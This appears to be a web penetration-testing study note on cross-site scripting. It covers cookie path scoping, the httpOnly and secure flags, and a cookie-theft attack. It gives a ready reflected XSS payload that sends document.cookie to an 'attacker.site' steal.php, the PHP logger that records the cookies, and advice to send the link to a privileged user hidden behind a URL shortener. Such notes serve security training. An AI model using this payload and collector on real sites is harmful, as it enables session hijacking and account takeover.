- Basically a script in a page under /path1/ is capable of reading the cookie set For /path2/ through an iframe.
- This means that if you need an XSS in /path2/ you may still look For it in other paths provided that you are able to inject the above code exploit.

### Firefox extensions 
- To test how the cookies mechanism works:
Live HTTP Header - https://addons.mozilla.org/en-US/firefox/addon/3829
// Helps understanding when the cookie is being sent
Cookie Editor - https://addons.mozilla.org/en-US/firefox/addon/4510
// show the installed cookies and the <domain, path, expiration> parameters

- The flag **httpOnly** prevents cookies from being read by JavaScript
- **secure** cookies - are sent only if https (SSL) is used in the request
- Search pages are good places to look For XSS


- The exploitation process goes as follows:
	1. Read the cookie using JavaScript
	2. Redirect the cookie content to a server that we own (lets suppose test.com)
	3. Retrieve the logged cookie from our server and install it on our browser using A&C Cookie editor or any other means (This third step may vary according to the browser used)

### Payload

→ search.php?kw=<script>var i=new Image();i.src="http://attacker.site/steal.php?q="%2bdocument.cookies;</script>

// the **%2b** is the URL-encoded version of the **+** character
// the browser cannot tell if the src attribute of an image object is real image or not, so it must perform a GET request to the attacker-supplied PHP script

steal.php content:
```
$fn="log.txt";
$fh=fopen($fn, 'a');
$cookie=$_GET['q'];
fwrite($fh,$cookie);
fclose($fh);
```


- We could send this to bob by email, if bob is a privileged user on alice.xxx and if the rules of engagement allow this, then we can also take advantage of URL shrinking service like tunyurl.com that hides the payload For us.

### Whose fault is it?
- The actual victim (bob) is not vulnerable to any direct attack
- And the vulnerable party (alice) is not the victim
- In this case, the vulnerable site positions its visitors and their data at risk
- There is little left For them to do to protect themselves beside using **Noscript add-on** on Firefox or relying on **XSS filters**.


## Attack - Defacement
- The most immediately visible damages that an XSS may cause
- When we find a persistent XSS, we are able to change the appearance of the web page by manipulating the DOM.
